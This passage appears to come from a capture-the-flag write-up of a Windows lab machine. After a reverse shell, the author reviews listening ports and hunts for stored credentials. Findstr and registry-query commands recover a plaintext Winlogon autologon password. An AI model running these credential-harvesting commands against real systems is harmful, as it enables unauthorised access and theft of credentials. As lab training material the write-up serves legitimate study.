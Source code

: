 ```
  TCP    [::]:49153             [::]:0                 LISTENING       716
  TCP    [::]:49154             [::]:0                 LISTENING       904
  TCP    [::]:49155             [::]:0                 LISTENING       456
  TCP    [::]:49156             [::]:0                 LISTENING       1032
  TCP    [::]:49157             [::]:0                 LISTENING       464
  UDP    0.0.0.0:123            *:*                                    872
  UDP    0.0.0.0:500            *:*                                    904
  UDP    0.0.0.0:4500           *:*                                    904
  UDP    0.0.0.0:5355           *:*                                    1104
  UDP    10.10.10.74:137        *:*                                    4
  UDP    10.10.10.74:138        *:*                                    4
  UDP    10.10.10.74:1900       *:*                                    3384
  UDP    10.10.10.74:9256       *:*                                    3100
  UDP    10.10.10.74:59445      *:*                                    3384
  UDP    127.0.0.1:1900         *:*                                    3384
  UDP    127.0.0.1:59446        *:*                                    3384
  UDP    [::]:123               *:*                                    872
  UDP    [::]:500               *:*                                    904
  UDP    [::]:4500              *:*                                    904
  UDP    [::1]:1900             *:*                                    3384
  UDP    [::1]:59444            *:*                                    3384
```
  - The established connection is my reverse shell
  - On the top we see some local port that open including 445 which is smb so a share might be available locally
- Let's check for passwords using this `findstr /si password *.txt *.ini *.config *.sql` - we do not seem to get anything
- Let's try with the registry `reg query HKLM /f password /t REG_SZ /s` We get something interesting, we have a default password!
```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    DefaultPassword    REG_SZ    Welcome1!
```
- Let's check winlogon further
```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon
    ReportBootOk    REG_SZ    1
    Shell    REG_SZ    explorer.exe
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ    
    LegalNoticeText    REG_SZ    
    PasswordExpiryWarning    REG_DWORD    0x5
    PowerdownAfterShutdown    REG_SZ    0
    ShutdownWithoutLogon    REG_SZ    0
    WinStationsDisabled    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    scremoveoption    REG_SZ    0
    ShutdownFlags    REG_DWORD    0x11
    DefaultDomainName    REG_SZ    
    DefaultUserName    REG_SZ    Alfred
    AutoAdminLogon    REG_SZ    1
    DefaultPassword    REG_SZ    Welcome1!

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon\GPExtensions
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon\AutoLogonChecked
```